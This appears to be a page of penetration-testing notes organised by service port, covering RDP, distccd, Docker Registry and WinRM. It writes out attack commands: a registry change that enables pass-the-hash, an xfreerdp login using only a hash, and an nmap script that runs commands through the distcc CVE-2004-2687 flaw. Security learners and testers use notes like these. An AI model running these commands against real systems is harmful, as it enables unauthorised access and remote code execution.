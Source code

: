 - **Pass-the-Hash (PtH)**

  Login using only the hash

  1. Enable `Restricted Admin Mode`

     ```cmd
     reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
     ```

  2. ```cmd
     xfreerdp /v:[IP] /u:[USER] /pth:[HASH]
     ```

- **BlueKeep (RCE without Auth) **[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)

## 3632 distccd

**Distcc** is a tool that enhances the **compilation process** by utilizing the **idle processing power** of other computers in the network. When **distcc** is set up on a machine, this machine is capable of distributing its **compilation tasks** to another system. This recipient system must be running the **distccd daemon** and must have a **compatible compiler** installed to process the sent code.

Check if it's vulnerable to **CVE-2004-2687** to execute arbitrary code:

```bash
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```

## 5000 - Docker Registry

### Generalities

- Purpose:

  Docker images are organized within **Docker repositories** in the registry, each repository storing various versions of a specific image. The functionality provided allows for images to be downloaded  locally or uploaded to the registry, assuming the user has the necessary permissions.

## 5985-6 - WINRM

### Generalities

- **Type:** Authentication 
- Purpose:
  - remote management protocol based on the command line.
  - WinRM must be explicitly enabled and configured starting with Windows 10
  - Windows Remote Shell (`WinRS`), which lets us execute arbitrary commands on the remote system. The program is included on Windows 7 by default. 
- Structure:
  - WinRM relies on `TCP` ports `5985` and `5986` for communication, with the last port `5986 using HTTPS`, as ports 80 and 443 were previously used for this task. 
  - In general, it only works for active directories
